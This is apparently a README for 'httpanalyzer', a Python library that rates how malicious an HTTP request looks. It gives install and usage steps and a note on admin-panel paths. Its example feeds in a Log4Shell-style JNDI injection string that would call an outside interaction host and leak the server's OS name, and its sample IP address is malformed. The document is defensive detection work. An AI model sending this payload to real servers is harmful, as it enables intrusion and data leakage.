 # httpanalyzer

This is a python library for analyzing http-request. Useful to reduce unnecessary traffic. 

## License

This project is licensed under the MIT-license. See LICENSE.txt for more information.

## Installing

Make sure pip3 is installed and up to date before executing this command.

```
pip3 install httpanalyzer
```

## Usage

Import the library:

```
import httpanalyzer
```

Create a new request instance:

```
instance = httpanalyzer.Request(http_headers, ip, url, admin_panels)
```

Print the malicious rating:

```
print(instance.malicious())
```

### Example

```
import httpanalyzer

instance = httpanalyzer.Request(
    {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
     'Accept-Encoding': 'gzip, deflate, br',
     'Accept-Language': 'en-US,en;q=0.5',
     'Connection': 'keep-alive',
     'Host': '127.0.0.1:80',
     'User-Agent': 'curl/7.82.0'},
    '159.223.2g05.51',
    '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
    ['wp-content', 'wp-config', 'wp-includes']
)
print(f"Malicious rating: {instance.malicious() * 100}%")
```

### Admin Panels

To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes']`.

## Dependencies

Python 3.6 or newer is required. Older versions do not work.
